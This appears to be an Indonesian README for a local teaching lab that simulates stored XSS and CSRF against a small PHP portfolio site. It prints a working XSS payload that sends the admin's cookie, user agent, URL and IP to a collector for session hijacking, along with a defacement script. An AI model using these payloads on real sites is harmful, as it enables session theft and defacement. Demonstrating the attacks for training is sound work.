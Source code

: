 ## Simulation 1 - Mas John Website

Untuk melakukan deface pada mas John website hacker melakukannya dengan memanfaatkan celah XSS yang ada pada fitur Contact Us form. Tipe serangan yang dilakukan adalah `stored XSS`. Hacker mengirimkan payload XSS pada inputan field Nama yang ada pada form Contact Us.

Mas John tidak melakukan sanitasi terhadap karaker special pada HTML seperti `<`, `>`, `&`, `"`, `'`. Dengan tidak dilakukannya sanitasi maka inputan nama ketika ditampilkan pada admin area berpotensi mendapatkan serangan XSS.

Berikut ini adalah payload yang dikirimkan hacker pada inputan field Nama.

```
Pak Budi Baik<script>
var getTheirIp = function(onDone) {
    var ajax = new XMLHttpRequest();
    ajax.addEventListener('load', function(e) {
        onDone(this.responseText.replace("\n", ""));
    });
    ajax.open('GET', 'https://wtfismyip.com/text');
    ajax.send();
};

var postToMe = function(ipAddr) {
    var data = {
        UA: navigator.userAgent,
        Cookie: document.cookie,
        URL: location.href,
        TheirIP: ipAddr
    };

    var ajax = new XMLHttpRequest();
    var targetUrl = 'http://127.0.0.1:9091/collect/?data=' + JSON.stringify(data);

    ajax.open('GET', targetUrl);
    ajax.send();
};

getTheirIp( postToMe );
</script>
```

Fungsi dari payload diatas adalah mengirimkan data-data dari yang membuka pesan yang masuk di Contact Us dalam hal ini Mas John. Jadi ketika halaman Contact Us pada Admin area ditampilkan maka ia akan mengirimkan data ke alamat hacker yaitu `http://127.0.0.1:9091/collect/?data` informasi yang diambil adalah:

- User Agent
- Cookie
- URL
- IP dari admin

Ketika hacker sudah mendapatkan data-data diatas, dia akan mencoba untuk melakukan session hijacking dengan memanfaatkan cookie yang telah dicuri. Alamat URL sudah diketahui dari data yang diterima. Hacker tinggal mengubah Cookie pada browser sesuai dengan cookie admin yang dicuri dan harusnya akses bisa dibobol.

Langkah selanjutnya adalah melakukan deface dengan mengganti isi dari konten salah satu portfolio. Kita ambil contoh Portfolio berjudul Puisi Kita. Kebetulan Mas John tidak melakukan sanisasi terhadap output dari portfolio yang ditampilkan dari database. Sehingga memungkinkan hacker memasukkan kode HTML/Javascript apapun pada konten.

```
Puisi kita adalah sebuab website kolaborasi tulisan antar seniman puisi. Pengguna dapat mengirimkan puisi dan memberikan tanggapan pada setiap puisi yang ada.

<script>
var body = '<div style="text-align:center;margin-top:100px;"><h2>Hacked by Mas Kher</h2><p>Special thanks to 4L4Y_N4ME.</p></div>';
document.body.innerHTML = body;
document.body.style.color = 'white';
document.body.style.backgroundColor = '#111111';
</script>
```

## Menjalankan Simulasi

Download atau clone repository dari GitHub.

```
$ git clone git@github.com:rioastamal-examples/phpid-xss-csrf-simulation.git
```

Jalankan website target yaitu &quot;Puisi Kita&quot; pada port 8080.

```
$ cd phpid-xss-csrf-simulation
$ php -S 0.0.0.0:8080 \
-t phpid-xss-csrf-simulation/simulation-01/masjohn-website/public \
phpid-xss-csrf-simulation/simulation-01/masjohn-website/public/index.php
```

Pada terminal window lain jalankan Fake website untuk melakukan CSRF pada port 8081.

```
$ php -S 0.0.0.0:8081 \
-t phpid-xss-csrf-simulation/simulation-01/hacker-website/public \
phpid-xss-csrf-simulation/simulation-01/hacker-website/public/index.php
```

Untuk detil cara menjalankan serangan dapat dibaca pada slide presentasi. Gunakan browser yang berbeda ketika membuka Mas John Website dan Hacker Website untuk mendapatkan kesan simulasi yang lebih nyata.
